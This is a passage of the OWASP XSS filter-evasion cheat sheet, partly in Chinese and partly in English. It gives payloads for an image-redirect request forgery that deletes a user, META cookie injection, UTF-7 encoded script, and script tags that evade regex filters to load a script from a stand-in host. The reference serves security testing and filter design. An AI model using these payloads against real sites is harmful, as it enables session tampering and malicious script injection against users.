 这更可怕，因为除了它不是托管在您自己的域上之外，绝对没有任何标识符使它看起来可疑。向量使用 302 或 304（其他也可以）将图像重定向回命令。因此，法线`<IMG SRC="httx://badguy.com/a.jpg">`实际上可能是作为查看图像链接的用户运行命令的攻击向量。这是完成向量的 .htaccess （在 Apache 下）行（感谢 Timo 的部分内容）：

```
Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser
```

### Cookie 操作[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#cookie-manipulation)

诚然，这非常晦涩难懂，但我已经看到了一些`<META`允许的示例，您可以使用它来覆盖 cookie。还有其他一些网站示例，其中不是从数据库中获取用户名，而是将用户名存储在 cookie 中，仅显示给访问该页面的用户。结合这两种情况，您可以修改受害者的 cookie，该 cookie 将作为 JavaScript 显示给他们（您也可以使用它来注销人们或更改他们的用户状态，让他们以您的身份登录，等等...）：

```
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
```

### UTF-7 编码[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#utf-7-encoding)

If the page that the XSS resides on doesn't provide a page charset header, or any browser that is set to UTF-7 encoding can be exploited with the following (Thanks to Roman Ivanov for this one). Click here for an example (you don't need the charset statement if the user's browser is set to auto-detect and there is no overriding content-types on the page in Internet Explorer and Netscape 8.1 in IE rendering engine mode). This does not work in any modern browser without changing the encoding type which is why it is marked as completely unsupported. Watchfire found this hole in Google's custom 404 script.:

```
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-
```

### XSS Using HTML Quote Encapsulation[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#xss-using-html-quote-encapsulation)

This was tested in IE, your mileage may vary. For performing XSS on sites that allow `<SCRIPT>` but don't allow `<SCRIPT SRC...` by way of a regex filter `/\<script\[^\>\]+src/i`:

```
<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

For performing XSS on sites that allow `<SCRIPT>` but don't allow `\<script src...` by way of a regex filter `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` (this is an important one, because I've seen this regex in the wild):

```
<SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

Another XSS to evade the same filter, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`:

```
<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>
```
